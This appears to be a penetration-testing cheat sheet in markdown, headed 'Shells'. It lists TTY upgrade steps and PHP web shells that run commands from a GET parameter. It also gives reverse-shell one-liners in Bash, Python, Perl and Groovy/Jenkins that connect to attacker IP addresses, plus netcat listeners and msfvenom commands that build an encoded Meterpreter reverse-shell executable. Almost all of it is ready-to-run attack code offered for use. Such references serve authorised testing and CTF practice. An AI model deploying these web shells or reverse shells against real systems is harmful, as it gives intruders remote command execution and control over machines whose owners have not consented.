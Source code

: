 # Shells

## Stabilisation/Upgrade shell

### Python

```console
Step 1
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python2 -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Step 2
$ export TERM=xterm

Step 3
STRG + Z to Backround shell
$ stty raw -echo; fg

Optional Setp 4:
$ reset
```

## Web Shell PHP

### POC
If you are unsure whether they are enabled on your system, the following will return a list of the dangerous functions that are enabled.
```php
<?php print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));?>
```

### Backtrick

```php
<?php system($_GET['cmd']);?>
'cmd' HTTP Request GET parameter -> e.g. "/shell.php?cmd=ls%20-la" 

<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

### system()
```php
// Return the listing of the directory where the file runs (Windows)
<?php system("dir"); ?>

// Return the listing of the directory where the file runs (Linux)
<?php system("ls -la"); ?>
```

### exec()

```php
// Executes but returns nothing
<?php exec("ls -la"); ?>

// Executes, returns only last line of the output
<?php echo exec("ls -la"); ?>
```

### shell_exec()

```php
// Executes, returns the entire output as a string
<?php echo shell_exec("ls -la"); ?>
```

### passthru()

```php
// Executes, returns output in raw format
<?php passsthru("ls -la"); ?>
```

## Shells

### Python

```console
$ python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Reverse Shells

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Listener

```console
nc -lvnp 9001

socat TCP-L:<port>
```

### Bash

```console
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1
```

### Groovy/Jenkins

```
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Python

```console
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.20.70",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

Payload Generator

### Windows Meterpreter Reverse shell

```console
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly.
```

### Reverse nc

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.14.20.70:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'